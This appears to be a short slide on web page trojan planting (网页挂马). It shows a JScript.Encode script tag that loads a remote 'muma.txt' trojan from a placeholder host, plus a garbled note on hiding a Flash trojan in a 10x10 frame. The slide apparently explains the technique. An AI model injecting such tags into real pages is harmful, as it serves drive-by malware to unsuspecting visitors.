

# 网页挂马
 js变形加密
<SCRIPT language="JScript.Encode" src=http://www.xxx.com/muma.txt></script>

flash木马
http://网页木马地址 插入木马地址 width=10 height=10", "GET" 宽度和高度